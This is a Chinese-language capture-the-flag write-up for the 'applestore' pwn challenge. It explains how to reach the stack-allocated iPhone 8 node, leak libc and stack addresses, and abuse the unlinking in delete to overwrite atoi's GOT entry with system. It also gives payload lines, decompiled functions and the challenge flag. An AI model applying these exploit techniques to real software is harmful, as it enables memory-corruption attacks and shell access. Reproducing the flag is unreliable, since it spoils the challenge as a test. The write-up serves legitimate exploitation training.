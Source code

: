 # applestore

```
user@vm-ubuntu20:~/tw$ checksec applestore
[*] '/home/user/tw/applestore'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

obj
- +0 *name
- +4 price
- +8 *fd 指向 後一個 +0
- +12 *bk 指向 前一個 +0

最一開始的 mycart 是在 bss ,fd 指向第一個物品


如果 checkout 總價等於 7174 會幫你加一個一元的 iphone8，iphone8 在 stack 上，並且會加入到 linklist 上，所以如果可以控制就可以利用 delete unlink 來寫入



計算要買幾台才會剛好 7174，可以用 z3 幫忙算，有多種買法，我只列一個

```
1: iPhone 6 - $199  16
2: iPhone 6 Plus - $299  0
3: iPad Air 2 - $499  0
4: iPad Mini 3 - $399  10
5: iPod Touch - $199  0
```

cart 的 buf 位置為 ebp-22h ， checkout 的 iphone8 v2 結構存放位置為 ebp-20h

這邊的 cart checkout handler 等多個函數 ebp 都是相同的

差兩個 bytes ，cart my_read 只會確認第一個字是否為 y ，所以可以構造 y\x00 這樣 cart 就可以蓋到 ebp-20h

所以可以寫入 `bss_cart= 0x804B070
payload = b'y\x00'+p32(elf.got['puts'])+p32(1)+p32(bss_cart)+p32(1)`

這樣在 cart 循環時就會在 28 拿到原本的 bss_cart 從 +4 開始直到 \x00 ，這樣就可以 leak heap 頭的位置


不過這邊用不太到 heap addr

可以觀察 leak 出的 chunks 跟實際上的多0x490


還可以再洩漏 stack 位置，利用 heap_adrr+0x??? 去洩露 存在 heap 上的 stack 位置
，第 27 節點 stack 

或是利用 `environ_libc = libc_addr + libc.symbols['environ']` 拿到 stack 位置


利用 delete 以及 Partial RELRO，可以劫持 got 把 atoi 換成 system

但是 unlink 前提是 fd 和 bk 所在的區域都具有可寫權限

delete 的 buf 位置為 ebp-22h


environ 0xffbf4fdc
delete ebp 0xffbf4ed8
offset 0xffbf4fdc - 0xffbf4ed8 - 0x8 = 0x10c



```
payload = b'27' + p32(stack_addr) + p32(1) + p32(atoi_got + 0x22) + p32(stack_addr - 0x10c)
                   name             price       fd                               bk

offset = 0xffbf4fdc - 0xffbf4ed8 - 0x8 = 0x10c

stack_addr - offset - 0x8 = delete_ebp_addr

        *(_DWORD *)(bk + 8) = fd;
           handler ebp = atoi_got + 0x22
        *(_DWORD *)(fd + 12) = bk;
            got 寫入 不重要
            
```

再 handler 再次寫入 ebp-22 時，就等同於寫入 got 位置，之後再放上 /bin/sh 

就可以拿到 shell

```c  
int cart()
{
  signed int v0; // eax
  signed int v2; // [esp+18h] [ebp-30h]
  int v3; // [esp+1Ch] [ebp-2Ch]
  _DWORD *i; // [esp+20h] [ebp-28h]
  char buf; // [esp+26h] [ebp-22h]
  unsigned int v6; // [esp+3Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  v2 = 1;
  v3 = 0;
  printf("Let me check your cart. ok? (y/n) > ");
  fflush(stdout);
  my_read(&buf, 0x15u);
  if ( buf == 'y' )
  {
    puts("==== Cart ====");
    for ( i = (_DWORD *)dword_804B070; i; i = (_DWORD *)i[2] )
    {
      v0 = v2++;
      printf("%d: %s - $%d\n", v0, *i, i[1]);
      v3 += i[1];
    }
  }
  return v3;
}
struct_v3 *__cdecl insert(struct_v3 *a1)
{
  struct_v3 *result; // eax
  struct_v3 *i; // [esp+Ch] [ebp-4h]

  for ( i = (struct_v3 *)&myCart; i->bk; i = (struct_v3 *)i->bk )
    ;
  i->bk = a1;
  result = a1;
  a1[1].field_0 = (char *)i;
  return result;
}

unsigned int checkout()
{
  int v1; // [esp+10h] [ebp-28h]
  char *v2; // [esp+18h] [ebp-20h]
  int v3; // [esp+1Ch] [ebp-1Ch]
  unsigned int v4; // [esp+2Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  v1 = cart();
  if ( v1 == 7174 )
  {
    puts("*: iPhone 8 - $1");
    asprintf(&v2, "%s", "iPhone 8");
    v3 = 1;
    insert((int)&v2);
    v1 = 7175;
  }
  printf("Total: $%d\n", v1);
  puts("Want to checkout? Maybe next time!");
  return __readgsdword(0x14u) ^ v4;
}

unsigned int delete()
{
  signed int v1; // [esp+10h] [ebp-38h]
  _DWORD *v2; // [esp+14h] [ebp-34h]
  int v3; // [esp+18h] [ebp-30h]
  int fd; // [esp+1Ch] [ebp-2Ch]
  int bk; // [esp+20h] [ebp-28h]
  char nptr; // [esp+26h] [ebp-22h]
  unsigned int v7; // [esp+3Ch] [ebp-Ch]

  v7 = __readgsdword(0x14u);
  v1 = 1;
  v2 = (_DWORD *)dword_804B070;
  printf("Item Number> ");
  fflush(stdout);
  my_read(&nptr, 0x15u);
  v3 = atoi(&nptr);
  while ( v2 )
  {
    if ( v1 == v3 )
    {
      fd = v2[2];
      bk = v2[3];
      if ( bk )
        *(_DWORD *)(bk + 8) = fd;
      if ( fd )
        *(_DWORD *)(fd + 12) = bk;
      printf("Remove %d:%s from your shopping cart.\n", v1, *v2);
      return __readgsdword(0x14u) ^ v7;
    }
    ++v1;
    v2 = (_DWORD *)v2[2];
  }
  return __readgsdword(0x14u) ^ v7;
}
```

>FLAG{I_th1nk_th4t_you_c4n_jB_1n_1ph0n3_8}
